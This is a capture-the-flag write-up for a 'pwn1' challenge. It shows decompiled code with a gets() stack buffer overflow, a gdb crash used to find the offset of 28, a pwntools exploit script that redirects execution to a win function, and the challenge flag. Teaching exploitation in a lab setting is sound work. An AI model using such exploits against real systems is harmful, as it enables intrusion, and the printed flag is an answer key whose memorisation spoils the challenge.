 # pwn / pwn1

> Points: 1338

## Question

```
nc uwctf.ml 6002
```

## Solution

Let's open the binary in ghidra and look at the decompiled code
```c
undefined4 main(void) {
    undefined *puVar1;
    puVar1 = &stack0x00000004;
    setvbuf(stdout,(char *)0x0,2,0);
    setvbuf(stdin,(char *)0x0,2,0);
    puts("Welcome to Buffer Overflow 1");
    puts("Can you hack me again?");
    hack_me(puVar1);
    return 0;
}
```

It prints a message and then calls `hack_me`
```c
void hack_me(void) {
    char local_1c [20];
    gets(local_1c);
    return;
}
```

This function is vulnerable to a simple buffer overflow exploit.  
Writing more than 20 bytes into `local_1c` will overwrite whatever comes after it on the stack, usually that's some padding added by the compiler, the stack base pointer `ebp` of the previous function in the call stack, and the address of where to jump to when the function returns (the return address).  
If we can overwrite the return address we can jump anywhere within the program, thankfully the creator of this program left in a `win` function that prints the flag.
```c
void win(void) {
    system("/bin/cat ./flag.txt");
    return;
}
```

We can find exactly where the return value is stored on the stack by looking at the segfault we get in gdb
```
Welcome to Buffer Overflow 1
Can you hack me again?
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRR

Program received signal SIGSEGV, Segmentation fault.
0x48484848 in ?? ()
```

The 0x48 from our segfault is ascii character `H`, meaning those `H`'s in the input string are at the correct offset to overwrite the return pointer, that's offset 28.  
The input we have to send in order to execute the win function will be 28 characters followed by the address of the win function.

Here's the final exploit using pwntools
```python
from pwn import *

exe = ELF("chall1.bin")
p = remote("uwctf.ml", 6002)
p.send(b"A" * 28 + p32(exe.sym["win"]) + b"\n")
p.clean_and_log(timeout=1)
```

### Flag

`uwctf{buff3r0v3rf10w1_00e342b9080e867c}`

